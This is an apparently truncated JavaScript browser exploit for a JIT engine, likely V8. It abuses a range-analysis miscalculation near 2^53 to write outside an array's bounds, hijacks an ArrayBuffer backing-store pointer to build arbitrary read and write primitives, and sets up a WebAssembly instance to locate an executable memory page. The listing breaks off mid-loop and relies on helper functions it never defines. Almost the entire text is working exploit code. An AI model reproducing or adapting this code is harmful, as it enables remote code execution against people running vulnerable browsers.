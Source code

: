 ```html

function f(x)
{   arr = [1.1, 2.2, 3.3, 4.4];
    let t = (x == 1 ? 9007199254740992 : 9007199254740989);
    t = t + 1 + 1;          //range(9007199254740991,9007199254740992)|range(9007199254740991,9007199254740994)
    t -= 9007199254740989;  //range(2,3)|range(2,5)
    t -= 1;                 //range(1,2)|range(1,4)
    t *= 2;                 //range(2,4)|range(2,8)
    t -= 1;                 //range(1,3)|range(1,7)
    arr[t] = 1.0864618449742194e-311;
    console.log('arr[t]:',arr[t]);
}

f(1);
for(let i=0;i<0x10000;i++) {
    f(1);
}
f(1);

var back_store_index = -1;
var _buf = new ArrayBuffer(0xaaa);
var dataview = new DataView(_buf);

for(let i=0;i<0x100;i++) {
    //console.log(i,':',hex(f2i(arr[i])));
    if (arr[i] === i2f(0x00000aaa00000000n)) {
        
        back_store_index = i+1;
        break;
    }
}

function arb_read(addr) {
    arr[back_store_index] = i2f(addr);
    //%SystemBreak();
    return dataview.getBigInt64(0, true);
    
}

function arb_write(addr,value) {
    arr[back_store_index] = i2f(addr);
    data_view.setBigInt64(0, BigInt(value), true);
}

console.log('[*]back_store_index:',hex((back_store_index)));
var back_store_addr = f2i(arr[back_store_index]);
console.log('[*]back_store_addr:',hex((back_store_addr)));

var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, {});
var f = wasmInstance.exports.main;
var rwx_page_index = -1;
var obj = {guide:i2f(0xaaaaaaaan), wasmInstanceaddr:wasmInstance};


for(let i=0;i<0x200;i++) {
    //console.log(i,':',hex(f2i(arr[i])));
    if (arr[i] === i2f(0xaaaaaaaan)) {   
```